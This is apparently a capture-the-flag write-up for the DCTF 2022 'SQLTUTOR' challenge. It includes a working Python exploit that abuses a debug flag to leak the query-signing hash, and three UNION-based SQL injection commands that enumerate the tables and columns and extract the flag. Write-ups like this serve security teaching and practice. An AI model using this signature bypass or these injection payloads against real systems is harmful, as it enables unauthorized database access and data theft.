 # SQLTUTOR | dctf-22

This challenge let us execute `sql query` on database, in this creative way

1. we type username , that username fill into whole sql query on backend side.
2. first that sqlquery submitted to `/verify_and_sign_text` 
3. this endpoing sign this with some salt we donot know and return `sha1` hash.
4. that `hash` and `text`, submitted to `/execute`.
5. we can perform `debug` on this `/execute` endpoint , to leak `hash`, of malicious query having sqlinjection payload.
6. so this is exploit is use.

```py
#!/usr/bin/env python3
#from requests import *
from httpx import *
from base64 import *
import sys
url = "https://sqltutor.dragonsec.si/"
#proxies = {
#  "http://":"http://127.0.0.1:8080",
#  "https://":"http://127.0.0.1:8080"
#}
#client = Client(proxies = proxies)
client = Client()
def generate_hash(payload):
  return client.post(url+"execute", data={"text":b64encode(payload.encode() ).decode(), "signature":"1","queryNo":"0","debug":"1"}).json()['debug']['compare'].split(" ")[0]

def send_payload(payload,_hash):
  return client.post(url+"execute", data={"text":b64encode(payload.encode() ).decode(), "signature":_hash,"queryNo":"0","debug":"1"}).json()

if __name__ == "__main__":
  payload = str(sys.argv[1])
  data = send_payload(payload,generate_hash(payload))
  print(data)

```

i use these series of queries to obtain flag:

`./exploit.py "admin' UNION ALL SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema=database()#"`

`./exploit.py "admin' UNION ALL SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name='flags'#"`

`./exploit.py "admin' UNION ALL SELECT id,flag,0,0 from flags#"`

# FLAG  
![https://i.imgur.com/O4qcT9Z.png](https://i.imgur.com/O4qcT9Z.png)